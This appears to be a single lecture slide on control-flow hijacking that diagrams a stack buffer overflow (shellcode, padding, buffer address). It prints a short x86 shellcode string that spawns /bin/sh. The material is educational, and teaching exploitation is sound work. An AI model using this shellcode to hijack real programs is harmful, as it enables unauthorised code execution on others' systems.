

# Control Flow Hijack: Always control + computation

| shellcode (aka payload) | padding | &buf |
| --- | --- | --- |
computation                     +                          control

"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f”
"\x73\x68\x68\x2f\x62\x69\x6e\x89”
"\xe3\xb0\x0b\xcd\x80”;
Previously: Executable code as input
18